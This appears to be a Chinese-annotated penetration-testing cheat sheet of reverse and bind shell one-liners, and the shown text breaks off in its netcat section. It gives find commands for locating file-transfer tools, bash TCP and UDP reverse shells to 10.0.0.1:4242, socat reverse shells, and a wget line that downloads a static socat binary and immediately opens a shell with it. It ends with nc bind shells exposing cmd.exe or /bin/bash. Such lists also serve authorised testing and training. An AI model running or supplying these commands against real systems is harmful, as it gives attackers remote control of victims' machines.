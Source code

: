 **查找可利用于传输文件的命令**
```bash
find / -name wget
find / -name nc*
find / -name netcat*
find / -name tftp*
find / -name ftp
find / -name scp
```

## bash

- tcp

    ```bash
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
    ```

- udp

    ```bash
    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1

    Listener:
    nc -u -lvp 4242
    ```

## Socat

```bash
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```bash
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

Static socat binary can be found at [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

## nc

- **bind shell**
    ```bash
    # 被控端
    nc -lvp 4444 -e cmd.exe     # win
    nc -lvp 4444 -e /bin/bash   # linux

